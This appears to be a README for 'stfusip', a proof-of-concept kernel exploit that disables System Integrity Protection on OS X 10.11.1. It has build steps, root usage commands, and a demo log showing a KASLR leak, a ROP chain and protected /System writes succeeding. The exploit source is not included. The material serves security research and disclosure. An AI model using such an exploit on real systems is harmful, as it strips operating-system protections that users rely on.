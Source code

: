 # stfusip

## credits & thanks

- [jndok](https://twitter.com/jndok) – a.k.a. myself, for code and exploit.
- [qwertyoruiop](https://twitter.com/qwertyoruiop) – for bug and related help! go follow him on Twitter :)

## compile
Simply do `make`, inside `stfusip` folder. If you encounter linking problems, be sure to check that you have _capstone_ installed on your system. There is a flag inside `Makefile` to specify _capstone_'s `include` directory, be sure to edit it if _capstone_ is located elsewhere on your system!

If you don't have _capstone_ installed, do:
```
brew install capstone
```
and you should be set.

## usage
So, `stfusip` is a simple poc for disabling/enabling SIP, a.k.a. _System Integrity Protection_, a.k.a. _rootless_ on OSX 10.11.1. Bug could theoretically still work on 10.11.2, but I am really not sure.

Super easy to use, **needs to be run as root!**:

```
sudo ./stfusip disable /* this disables SIP */
sudo ./stfusip enable  /* this enables SIP */
```

Here's a demo output:

```
jndoks-Mac-Pro:stfusip jndok$ sudo su
sh-3.2# whoami
root
sh-3.2# touch /System/yolo
touch: /System/yolo: Operation not permitted
sh-3.2# ./stfusip disable
[+] kaslr slide is: 0x0000000c600000
[+] built ROP chain @ 0xbff56c90 (mapped @ 0x261)!
[+] trigger set: 0x18 : 0xffffff800c8c41bf

[-] System Integrity Protection (SIP) has been disabled.
sh-3.2# touch /System/yolo
sh-3.2# ls -ls /System/
total 0
0 drwxr-xr-x  74 root  wheel  2516 Dec  7 09:43 Library
0 -rw-r--r--   1 root  wheel     0 Dec  7 15:46 yolo
sh-3.2# rm -rf /System/yolo
sh-3.2# ls -ls /System/
total 0
0 drwxr-xr-x  74 root  wheel  2516 Dec  7 09:43 Library
sh-3.2# ./stfusip enable
[+] kaslr slide is: 0x0000000c600000
[+] built ROP chain @ 0xbfff6c90 (mapped @ 0x261)!
[+] trigger set: 0x18 : 0xffffff800c8c41bf

touch: /System/test: Operation not permitted
[+] System Integrity Protection (SIP) has been enabled.
sh-3.2# touch /System/yolo
touch: /System/yolo: Operation not permitted
sh-3.2# exit
```
